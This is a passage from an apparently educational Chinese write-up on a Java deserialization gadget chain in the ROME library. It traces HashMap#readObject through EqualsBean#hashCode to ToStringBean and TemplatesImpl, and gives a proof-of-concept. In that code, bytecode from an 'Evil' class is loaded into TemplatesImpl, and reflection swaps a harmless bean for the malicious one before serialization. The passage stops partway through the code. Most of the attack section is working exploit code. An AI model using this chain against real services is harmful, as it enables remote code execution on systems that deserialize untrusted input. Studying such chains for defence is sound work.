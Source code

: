 熟悉的`hashCode`，入口就是`URLDNS`的入口类`hashMap`

`hashMap#readObject` => `hash(key)`  => `key.hashCode()` => `EqualsBean#hashCode`

# 0x03 Weave POC

和`URLDNS`一样，往`map`里`put`时会触发`hashCode`，这里使用`ObjectBean`来作中转，后面再用反射修改

```java
public class ObjectBean implements Serializable{
    public ObjectBean(Class beanClass,Object obj,Set ignoreProperties) {
        _equalsBean = new EqualsBean(beanClass,obj);
        _toStringBean = new ToStringBean(beanClass,obj);
        _cloneableBean = new CloneableBean(obj,ignoreProperties);
    }
    public int hashCode() {
        return _equalsBean.beanHashCode();
    }
}
```

POC：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, bean);
        ObjectBean fakeBean = new ObjectBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "_equalsBean", equalsBean);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(map);
```